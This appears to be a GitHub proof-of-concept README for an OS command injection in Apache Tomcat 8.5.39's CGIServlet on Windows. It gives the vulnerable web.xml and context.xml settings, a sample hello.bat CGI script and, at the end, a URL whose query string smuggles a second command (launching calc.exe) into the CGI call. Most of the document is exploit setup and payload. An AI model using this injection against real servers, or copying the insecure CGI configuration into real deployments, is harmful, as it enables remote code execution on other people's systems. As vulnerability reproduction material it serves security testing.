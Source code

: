 ### Testing Environment:
```
Tomcat 8.5.39
JDK 8u121
```

### Modify Configuration

#### web.xml

```
<servlet>
        <servlet-name>cgi</servlet-name>
        <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
        <init-param>
          <param-name>debug</param-name>
          <param-value>0</param-value>
        </init-param>
        <init-param>
          <param-name>cgiPathPrefix</param-name>
          <param-value>WEB-INF/cgi-bin</param-value>
        </init-param>
        <init-param>
          <param-name>executable</param-name>
          <param-value></param-value>
        </init-param>
         <load-on-startup>5</load-on-startup>
</servlet> 
```

#### content.xml

```
<Context privileged="true">

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context>
```

#### hello.bat
```
echo Content-type: text/html
```

### Move `WEB-INF` to $CATALINA_HOME/webapps/ROOT  and start TOMCAT server

### Visit the URL and inject OS command
```
http://localhost:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Ccalc.exe
```
